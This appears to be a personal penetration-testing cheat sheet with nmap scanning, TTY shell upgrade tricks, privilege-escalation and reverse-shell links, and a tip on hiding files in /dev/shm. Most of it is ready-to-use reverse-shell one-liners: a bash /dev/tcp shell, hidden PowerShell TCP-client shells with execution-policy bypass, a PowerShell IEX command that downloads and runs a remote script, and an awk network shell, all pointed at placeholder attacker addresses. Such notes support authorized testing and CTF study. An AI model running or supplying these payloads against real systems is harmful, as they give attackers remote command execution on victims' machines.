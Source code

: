 ## DATA COLLECTION 

```nmap -sV -sC -oA <ip> <outputfile>```

Dirb any available port 80 address

### TTY SHELL

```python -c 'import pty; pty.spawn("/bin/sh")'```

https://netsec.ws/?p=337

### IPPSEC explains terminal upgrades tty

CTRL + Z (Background process)
stty raw -echo (local term don't process tabs, send through to terminal)
fg (foreground shell)


https://youtu.be/CYeVUmOar3I?t=789

### PRIVESC 

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh

## STORE FILES IN MEM

```/dev/shm```

Upload any files to Ram disk that will clear on reboot.

## REVERSE SHELL

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell

## BASH RS

```bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'```

## Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
## Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### SHELL COMMANDS

```SHELL
SHELL=/bin/bash script -q /dev/null
```

Explanation for /dev/null
https://askubuntu.com/questions/306047/what-does-the-script-dev-null-do
